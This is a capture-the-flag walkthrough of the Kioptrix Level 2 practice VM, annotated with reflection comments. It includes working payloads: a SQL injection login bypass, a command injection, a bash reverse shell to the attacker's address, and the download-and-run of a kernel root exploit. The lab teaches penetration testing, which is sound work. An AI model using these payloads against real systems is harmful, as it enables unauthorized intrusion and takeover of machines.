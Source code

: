 # Kioptrix 2

These are a series of challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). These games are to learn the basic tools and techniques in vulnerability assessment and exploitation.

## Action plan:

1. **Intelligence Gathering:**
    
    -   Use `netdiscover` to find the target VM's IP address on the network.
    -   Employ `nmap` to scan the target, identifying open ports, running services, and operating system details.
2. **Vulnerability Identification:**
    
    -   Analyze `nmap` results to pinpoint potential vulnerabilities, such as open ports (SSH, HTTP, HTTPS, MySQL, IPP) and running services (Apache, CUPS).
    -   Research known vulnerabilities associated with identified services (e.g., CUPS v1.1).
3. **Exploitation:**
    
    -   Discover a SQL injection vulnerability on the website's login page.
    -   Utilize SQL injection to bypass authentication and gain access to a ping command prompt.
    -   Identify and exploit a command injection vulnerability in the ping prompt to execute arbitrary commands.
4. **Reverse Shell:**
    
    -   Set up a Netcat listener on the attacker's machine.
    -   Use the command injection vulnerability to initiate a reverse shell connection from the target VM to the attacker's machine.
5. **Privilege Escalation:**
    
    -   Gather information about the target system's operating system and kernel version.
    -   Find a suitable privilege escalation exploit (ip\_append\_data\_() Ring0) based on the system information.
    -   Transfer the exploit to the target VM, compile it, and execute it to gain root access.
    

# Challenge Analysis: Kioptrix: Level 2

## 1. Intelligence Gathering

-   **Find Target IP:** Used `netdiscover` to scan the network (192.168.8.0/16) and identify the target VM's IP address as 192.168.1.5.
    
    <reflection>
    
    -   This is a standard initial step in penetration testing.
    -   `netdiscover` is an appropriate tool for this purpose.
    
    </reflection>
    
-   **Port and Service Scanning:** Employed `nmap` with options `-sS -A -n` to perform a stealth SYN scan, aggressive service detection, and no DNS resolution on the target IP (192.168.1.5).
    
    <reflection>
    
    -   `nmap` is a powerful tool for port and service scanning.
    
    </reflection>
    

## 2. Vulnerability Identification

-   **Analyze `nmap` Results:** Identified open ports (22/SSH, 80/HTTP, 443/HTTPS, 3306/MySQL, 631/IPP) and running services (OpenSSH 3.9p1, Apache 2.0.52, CUPS 1.1).
    
    <reflection>
    
    -   The identified ports and services are potential entry points for exploitation.
    
    </reflection>
    
-   **Research Vulnerabilities:** Investigated known vulnerabilities for the identified services, particularly focusing on CUPS v1.1 due to its history of exploits.
    
    <reflection>
    
    -   This is a crucial step in vulnerability assessment.
    -   Focusing on services with known vulnerabilities is a good strategy.
    
    </reflection>
    

## 3. Exploitation

-   **SQL Injection:** Discovered a SQL injection vulnerability on the website's login page. Injected `1' or '1'='1` into both username and password fields to bypass authentication.
    
    <reflection>
    
    -   SQL injection is a common web application vulnerability.
    -   The injected payload is a classic example of a SQL injection attack.
    
    </reflection>
    
-   **Command Injection:** Identified a command injection vulnerability in the ping command prompt. Used `127.0.0.1; id` to execute the `id` command after a ping command, confirming the vulnerability.
    
    <reflection>
    
    -   Command injection is another common web application vulnerability.
    -   The payload effectively demonstrates the ability to execute arbitrary commands.
    
    </reflection>
    

## 4. Reverse Shell

-   **Netcat Listener:** Set up a Netcat listener on the attacker's machine (192.168.1.3) using `nc -nlvp 443` to listen on port 443.
    
    <reflection>
    
    -   Netcat is a versatile tool for network connections.
    -   Listening on port 443 is a good choice as it's often open.
    
    </reflection>
    
-   **Reverse Shell Payload:** Used the command injection vulnerability to execute `127.0.0.1; bash -i >& /dev/tcp/192.168.1.3/443 0>&1`, initiating a reverse shell connection to the attacker's machine.
    
    <reflection>
    
    -   The payload effectively establishes a reverse shell using bash.
    
    </reflection>
    

## 5. Privilege Escalation

-   **System Information Gathering:** Used `cat /etc/*-release`, `cat /proc/version`, and `rpm -q kernel` to gather information about the target system's OS (CentOS 4.5) and kernel version (2.6.9-55.EL).
    
    <reflection>
    
    -   Gathering system information is crucial for finding suitable exploits.
    
    </reflection>
    
-   **Exploit Research:** Found a privilege escalation exploit called "ip\_append\_data\_() Ring0" that was suitable for the target system's kernel version.
    
    <reflection>
    
    -   Finding a relevant exploit is a key step in privilege escalation.
    
    </reflection>
    
-   **Exploit Transfer and Execution:**
    
    -   Copied the exploit code to a file (priv.c) on the attacker's machine.
    -   Compiled the exploit using `gcc -o priv priv.c`.
    -   Moved the compiled exploit to `/var/www/html` and started an Apache server on the attacker's machine.
    -   Used `wget http://192.168.1.3/priv` on the target machine to download the exploit.
    -   Changed the exploit's permissions using `chmod 755 priv`.
    -   Executed the exploit using `./priv`.
    
    <reflection>
    
    -   The steps for transferring and executing the exploit are well-defined.
    -   Using a web server to transfer the exploit is a common technique.
    
    </reflection>
    
-   **Root Access Confirmation:** Used `id` and `whoami` to confirm that the exploit successfully granted root access (uid=0(root), gid=0(root)).
    
    <reflection>
    
    -   These commands are standard for verifying user privileges.
    -   The output confirms that root access has been obtained.
    
    </reflection>
